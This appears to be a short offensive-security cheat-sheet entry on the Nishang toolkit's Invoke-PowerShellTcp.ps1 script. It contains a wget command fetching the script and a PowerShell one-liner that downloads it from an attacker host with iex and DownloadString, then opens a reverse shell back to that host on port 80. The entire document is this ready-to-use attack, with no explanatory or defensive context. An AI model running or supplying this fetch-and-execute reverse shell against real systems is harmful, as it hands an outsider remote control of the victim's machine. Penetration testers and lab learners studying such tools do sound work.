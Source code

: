 # nishang

## Shells

### **Invoke-PowerShellTcp.ps1** <a href="#blob-path" id="blob-path"></a>

```
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.147.29:80/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.147.29 -Port 80
```
